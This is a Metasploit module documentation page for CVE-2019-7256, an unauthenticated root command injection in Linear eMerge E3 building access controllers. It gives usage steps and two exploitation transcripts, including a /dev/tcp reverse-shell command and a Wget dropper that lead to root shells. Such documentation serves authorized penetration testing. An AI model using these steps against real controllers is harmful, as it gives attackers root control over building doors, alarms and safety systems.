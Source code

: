 ## Vulnerable Application

Nortek Security & Control, LLC (NSC) is a leader in wireless security, home automation and personal safety systems and devices.
The eMerge E3-Series is part of Linear’s access control platform, that delivers entry-level access control to buildings.
It is a web based application where the HTTP web interface is typically exposed to the public internet.

The Linear eMerge E3 versions `1.00-06` and below are vulnerable to an unauthenticated command injection remote root exploit
that leverages card_scan_decoder.php.
This can be exploited to inject and execute arbitrary shell commands as the root user through the `No` and `door` HTTP GET parameter.
A successful exploit could allow the attacker to execute arbitrary commands on the underlying operating system with the root privileges.

Building Automation and Access Control systems are at the heart of many critical infrastructures, and their security is vital.
Executing attacks on these systems may enable unauthenticated attackers to access and manipulate doors, elevators, air-conditioning systems,
cameras, boilers, lights, safety alarm systems in an entire building.

This issue affects all Linear eMerge E3 versions up to and including `1.00-06`.

Installing a vulnerable test bed requires a Linear eMerge E3 access controller with the vulnerable software loaded.

This module has been tested against a Linear eMerge access controller with the specifications listed below:

* Nortek Linear eMerge E3 access controller
* Firmware < `v1.00-06`

## Verification Steps

1. `use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### Nortek Linear eMerge E3 access controller bash reverse shell

```
msf6 > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 0
target => 0
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.1638134399981936 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with bash -c '0<&179-;exec 179<>/dev/tcp/192.168.100.7/4444;sh <&179 >&179 2>&179'
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54274) at 2022-12-01 18:51:54 +0000

uname -a
Linux cuckoo 3.14.54 #1 SMP PREEMPT Thu Dec 6 19:08:58 PST 2018 armv7l GNU/Linux
whoami
root
exit
```

### Nortek Linear eMerge E3 access controller meterpreter session

```
msf6 > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 1
target => 1
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.177188547007972 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/n6tUft9RrS
[*] Client 127.0.0.1 (Wget) requested /n6tUft9RrS
[*] Sending payload to 127.0.0.1 (Wget)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:49448) at 2022-12-01 18:50:26 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux 3.14.54)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
```

## Limitations
Staged payloads like `linux/armle/meterpreter/reverse_tcp` or `linux/armle/shell/reverse_tcp` do not work.
Manually tested these payloads with `msfvenom`, but they produce segmentation faults when executed on the target.
However stageless payloads such as `linux/armle/meterpreter_reverse_tcp` and `linux/armle/shell_reverse_tcp` are working.

Due to the limitations of restricted `busybox` command implementation on the Linear eMerge E3 Access Controller, only a
few unix command payloads will work such as `cmd/unix/reverse_bash` or `cmd/unix/reverse` (telnet).

